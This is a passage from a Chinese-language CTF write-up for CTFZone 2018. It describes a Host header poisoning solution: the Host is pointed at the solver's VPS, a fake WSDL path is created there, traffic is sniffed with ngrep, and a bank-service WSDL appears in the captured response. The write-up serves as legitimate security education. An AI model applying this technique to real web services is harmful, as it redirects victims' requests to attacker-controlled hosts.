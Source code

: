    然后开burp跑就行。

   ![](/assets/ctfzone/TIM截图20180803174532.png)

4. 解法2：Host header poisoning

   从上图，我们可以看到当前Host是`web-05.v7frkwrfyhsjtbpfcppnu.ctfz.one`

   修改该Host为我们的vps_ip,并在我们的vps上创建`/api/bankservice.wsdl.php`文件，然后发包，监听80端口。

   ![](/assets/ctfzone/TIM截图20180803181237.png)

   监听端口:

   >ngrep -q -d eth0 -W byline port 80

   抓包结果：

   ```
   T 10.135.89.224:80 -> 18.184.147.62:46038 [A]
   HTTP/1.1 200 OK.
   Date: Fri, 03 Aug 2018 10:08:43 GMT.
   Server: Apache/2.4.6 (CentOS) PHP/5.4.16.
   X-Powered-By: PHP/5.4.16.
   Content-Length: 2907.
   Connection: close.
   Content-Type: text/html; charset=UTF-8.
   .
   <?xml version="1.0" encoding="utf-8"?><wsdl:definitions name="Bank"
                targetNamespace="urn:Bank"
                xmlns:tns="urn:Bank"
                xmlns:soap="http://schemas.xmlsoap.org/wsdl/soap/"
                xmlns:xsd="http://www.w3.org/2001/XMLSchema"
                xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"
                xmlns:wsdl="http://schemas.xmlsoap.org/wsdl/"
                xmlns="http://schemas.xmlsoap.org/wsdl/">
   
       <message name="BalanceRequest">
           <part name="wallet_num" type="xsd:decimal"/>
       </message>
   
       <message name="BalanceResponse">
           <part name="code" type="xsd:float"/>
           <part name="status" type="xsd:string"/>
       </message>
   
       <message name="internalTransferRequest">
           <part name="receiver_wallet_num" type="xsd:decimal"/>
           <part name="sender_wallet_num" type="xsd:decimal"/>
           <part name="amount" type="xsd:float"/>
           <part name="token" type="xsd:string"/>
       </message>
   
       <message name="internalTransferResponse">
           <part name="code" type="xsd:float"/>
           <part name="status" type="xsd:string"/>
       </message>
   
       <portType name="BankServicePort">
           <operation name="requestBalance">
               <input message="tns:BalanceRequest"/>
               <output message="tns:BalanceResponse"/>
           </operation>
           <operation name="internalTransfer">
               <input message="tns:internalTransferRequest"/>
               <output message="tns:internalTransferResponse"/>
           </operation>
   ```